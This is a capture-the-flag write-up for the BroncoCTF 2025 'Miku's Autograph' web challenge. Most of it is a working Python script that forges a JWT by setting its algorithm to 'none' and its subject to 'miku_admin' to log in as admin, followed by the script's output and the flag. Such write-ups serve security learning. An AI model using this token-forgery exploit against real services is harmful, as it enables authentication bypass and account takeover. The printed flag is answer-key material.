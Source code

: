  <title>broncocte2025---Miku's Autograph Writeup </title>
 

<!DOCTYPE html>
<html>
 
<body>
    <h1>broncocte2025---Miku's Autograph Writeup </h1>

    <h2>Challenge Description</h2>
    <p>  I am so proud of the fact that I have Miku's autograph. Ha! You don't!

<a href="https://miku.web.broncoctf.xyz/">https://miku.web.broncoctf.xyz</a>
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol> 
        <li> 
we open https://miku.web.broncoctf.xyz/ via burp suit or script see that have /get_token sub domin that get jwt token 
so i ajwt token and becaouse two use so set user to miko admin to login in token.dev and get logging in cookies or below code is for jwt attack
</pre>
#! /usr/bin/env python3
import json
import base64
import requests
import sys

# Default values (Can be overridden via command-line arguments)
HOST = "https://miku.web.broncoctf.xyz/"  # Replace with actual host
MANUAL_TOKEN = None
ALG = "none"
SUB = "miku_admin"

def msg_info(message):
    print(f"[INFO] {message}")

def parse_args():
    """Parses command-line arguments like 'alg=none sub=admin token=...'."""
    global HOST, ALG, SUB, MANUAL_TOKEN

    for arg in sys.argv[1:]:
        if "=" in arg:
            key, value = arg.split("=", 1)
            key, value = key.strip(), value.strip()

            if key == "host":
                HOST = value
            elif key == "alg":
                ALG = value
            elif key == "sub":
                SUB = value
            elif key == "token":
                MANUAL_TOKEN = value  # If token is provided, use it directly

def tweak_token(token: str) -> str:
    try:
        header, payload, signature = token.split(".")
        base64_decoded_header = json.loads(base64.b64decode(header + "==").decode())
        base64_decoded_payload = json.loads(base64.b64decode(payload + "==").decode())

        # Modify the token dynamically
        base64_decoded_header["alg"] = ALG
        base64_decoded_payload["sub"] = SUB

        header = base64.b64encode(json.dumps(base64_decoded_header).encode()).decode().replace("=", "")
        payload = base64.b64encode(json.dumps(base64_decoded_payload).encode()).decode().replace("=", "")
        cookie = f"{header}.{payload}.{signature}"

        msg_info(f"Tweaked Cookie is: {cookie}")
        return cookie
    except Exception as e:
        msg_info(f"Error tweaking token: {e}")
        return None

def get_token():
    if MANUAL_TOKEN:
        msg_info("Using manually provided token.")
        return MANUAL_TOKEN

    try:
        response = requests.get(f"{HOST}/get_token")
        if response.status_code != 200:
            msg_info(f"Failed to get token: {response.text}")
            return None

        token = json.loads(response.text).get("your_token")
        if not token:
            msg_info("No token found in response.")
            return None

        return token
    except Exception as e:
        msg_info(f"Error getting token: {e}")
        return None

def solve():
    parse_args()  # Process command-line arguments

    msg_info(f"Using host: {HOST}")
    msg_info(f"Using alg: {ALG}")
    msg_info(f"Using sub: {SUB}")

    msg_info("Retrieving the token...")
    token = get_token()
    
    if not token:
        msg_info("No valid token retrieved. Exiting.")
        return

    cookie = tweak_token(token)
    if not cookie:
        msg_info("Token tweaking failed. Exiting.")
        return

    data = {"token": cookie}

    try:
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        response = requests.post(f"{HOST}/login", data=data, headers=headers)

        msg_info(f"Status Code: {response.status_code}")
        msg_info(f"Response Headers: {response.headers}")
        msg_info(f"Response Body: {response.text}")
    except Exception as e:
        msg_info(f"Error during login: {e}")

if __name__ == "__main__":
    
    solve()
</pre>
after running code will get token with below result
<code>
INFO] Retrieving the token...
[INFO] Tweaked Cookie is: eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAibWlrdV9hZG1pbiIsICJleHAiOiAxNzM5ODE3OTk3fQ.y8LSP8HaDWRVTEh6epW6Sb1cFiaa2N1XsAKWkd0g31A
[INFO] Status Code: 200
[INFO] Response Headers: {'Server': 'Werkzeug/3.1.3 Python/3.13.2', 'Date': 'Mon, 17 Feb 2025 18:36:38 GMT', 'Content-Type': 'text/html; charset=utf-8', 'Content-Length': '88', 'Via': '1.1 google', 'Alt-Svc': 'h3=":443"; ma=2592000,h3-29=":443"; ma=2592000'}
[INFO] Response Body: <h2>Welcome, Miku Admin! Here's your flag: bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}</h2>

</code>
that have flag
</li>
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}
</p>

    <h2>Conclusion</h2>
    <p>this is a medium chanllenge for jwt attack and web exploitation</p>

</body>
</html>
